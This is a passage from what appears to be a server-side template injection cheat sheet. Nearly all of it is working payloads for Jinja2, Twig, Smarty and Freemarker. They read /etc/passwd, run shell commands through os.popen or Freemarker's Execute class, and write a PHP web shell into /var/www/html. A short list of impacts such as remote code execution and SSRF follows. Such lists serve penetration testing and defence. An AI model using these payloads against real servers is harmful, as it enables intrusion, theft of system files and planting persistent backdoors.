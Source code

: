 ## File Read/Write Techniques

### Reading Files

#### Jinja2/Python
```
{% raw %}
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read() }}
{% endraw %}
```

#### PHP/Smarty/Twig
```
{% raw %}
{include file='/etc/passwd'}
{{file_get_contents('/etc/passwd')}}
{% endraw %}
```

#### Java/Freemarker
```
${object.getClass().forName("java.io.FileReader").newInstance("/etc/passwd").toString()}
```

### Writing Files

#### Jinja2/Python
```
{% raw %}
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/var/www/html/shell.php', 'w').write('<?php system($_GET["cmd"]);?>') }}
{% endraw %}
```

#### PHP/Smarty/Twig
```
{$smarty.template_object->smarty->registerResource('file',
array('resource_open'=>function($path){return fopen($path,'w');},'resource_get'=>function($fp){fwrite($fp,'<?php system($_GET["cmd"]);?>');return true;}))}
{extends file='../../../var/www/html/shell.php'}
```

#### Java/Freemarker
```
<#assign ex = "freemarker.template.utility.Execute"?new()>
${ex("echo '<?php system($_GET[\"cmd\"]);?>' > /var/www/html/shell.php")}
```

## Impact of SSTI Vulnerabilities

1. **Remote Code Execution (RCE)** - Execute arbitrary system commands
2. **Information Disclosure** - Leak sensitive configuration, environment variables, etc.
3. **File System Access** - Read/write files on the server
4. **Server-Side Request Forgery (SSRF)** - Make requests from the server to internal resources
5. **Denial of Service (DoS)** - Crash the application or degrade performance
